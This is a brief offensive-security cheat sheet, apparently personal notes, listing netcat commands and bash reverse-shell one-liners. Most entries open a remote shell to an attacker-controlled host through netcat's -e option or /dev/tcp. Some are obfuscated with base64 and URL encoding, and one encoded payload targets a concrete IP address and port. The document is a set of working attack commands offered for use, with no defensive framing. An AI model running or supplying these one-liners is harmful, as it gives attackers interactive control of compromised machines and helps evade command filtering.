 # Netcat
Comm | Desc
--- | ---
`nc -l -p <port>` | listen on port
`nc <dest_ip> <port>` | Connect to dest_ip on port
`nc <dest_ip> <port> -e <binary>` | Connect to dest_ip on port executing binary (great for rev shell)


#netcatalternative
`setsid bash -i &>/dev/tcp/IP/PORT 0>&1 &`
`bash -i &>/dev/tcp/IP/PORT 0>&1' #`
`echo $(echo 'bash -i &> /dev/tcp/IP/PORT  <&1' | base64) | base64 -d | bash`


`echo%20"YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNC4xMjEvNjY2NiA8JjE="%20|%20base64%20-d%20|%20bash`